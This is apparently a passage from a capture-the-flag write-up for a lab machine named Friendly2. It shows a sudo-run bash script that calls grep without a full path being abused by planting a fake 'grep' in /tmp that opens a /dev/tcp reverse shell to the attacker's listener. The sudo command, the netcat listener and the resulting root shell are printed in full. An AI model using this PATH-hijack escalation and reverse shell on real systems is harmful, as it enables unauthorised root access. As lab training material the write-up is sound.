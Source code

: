 ```bash
if echo "$string" | grep -q '[^[:alnum:] ]'; then
  echo "The string cannot contain special characters."
  exit 1
fi

sus1='A-Za-z'
sus2='N-ZA-Mn-za-m'

encoded_string=$(echo "$string" | tr $sus1 $sus2)

echo "Original string: $string"
echo "Encoded string: $encoded_string"

```
The bash script uses grep. We can create our own grep file that executes our commands.
This gives us the ability to launch a reverse shell as root for example.
We can create the bash file with a reverse shell in the file named `grep`.

```bash
gh0st@friendly2:~$ cd /tmp
gh0st@friendly2:/tmp$ nano grep
gh0st@friendly2:/tmp$ cat grep
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.0.2.15/4321 0>&1
gh0st@friendly2:/tmp$ chmod +x grep
```
Since everything is almost set we have to laucnh our listener.
```bash
┌──(emvee㉿kali)-[~/Documents/VPN/HTB/Friendly2]
└─$ rlwrap nc -lvp 4321
listening on [any] 4321 ...
```

## Privilege escalation
No we are ready to start the privilege escalation attack. We have to run the sudo command, set our environment path and run the bash script.

```bash
gh0st@friendly2:~$ sudo PATH=/tmp/:$PATH /opt/security.sh
Enter the string to encode:
abc def


```
Let's check the netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/VPN/HTB/Friendly2]
└─$ rlwrap nc -lvp 4321
listening on [any] 4321 ...
10.0.2.44: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.44] 36018
root@friendly2:/home/gh0st# 


```
We got a shell as root, now let's capture te root flag.
```bash
root@friendly2:/home/gh0st# whoami;hostname;ip a
whoami;hostname;ip a
root
friendly2
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
```
